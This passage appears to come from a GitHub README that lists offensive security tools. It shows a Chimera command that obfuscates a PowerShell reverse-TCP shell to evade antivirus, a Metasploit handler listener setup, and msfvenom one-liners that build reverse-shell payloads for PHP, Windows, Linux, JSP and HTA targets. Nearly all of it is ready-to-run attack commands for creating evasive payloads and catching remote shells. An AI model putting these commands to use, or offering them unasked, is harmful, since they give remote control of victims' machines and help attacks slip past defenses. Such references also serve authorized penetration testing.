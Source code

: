 **Usage:**

```bash
./chimera.sh -f shells/Invoke-PowerShellTcp.ps1 -l 3 -o /tmp/chimera.ps1 -v -t powershell,windows,\
copyright -c -i -h -s length,get-location,ascii,stop,close,getstream -b new-object,reverse,\
invoke-expression,out-string,write-error -j -g -k -r -p
```

![image](https://user-images.githubusercontent.com/100603074/209867736-5c35cec0-9227-4f18-a439-a5c954342818.png)

### [🔙](#tool-list)[msfvenom](https://www.offensive-security.com/metasploit-unleashed/Msfvenom/)

Msfvenom allows the creation of payloads for various operating systems in a wide range of formats. It also supports obfuscation of payloads for AV bypass.

**Set Up Listener**

```shell
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST your-ip
set LPORT listening-port
run
```

#### Msfvenom Commands

**PHP:**

```bash
msfvenom -p php/meterpreter/reverse_tcp lhost =192.168.0.9 lport=1234 R
```

**Windows:**

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

**Linux:**

```bash
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
```

**Java:**

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

**HTA:**

```bash
msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.3 lport=443 -f hta-psh > shell.hta
```

![image](https://user-images.githubusercontent.com/100603074/192070870-2e65fc9f-6534-42e2-af27-9d8b54a82f0b.png)
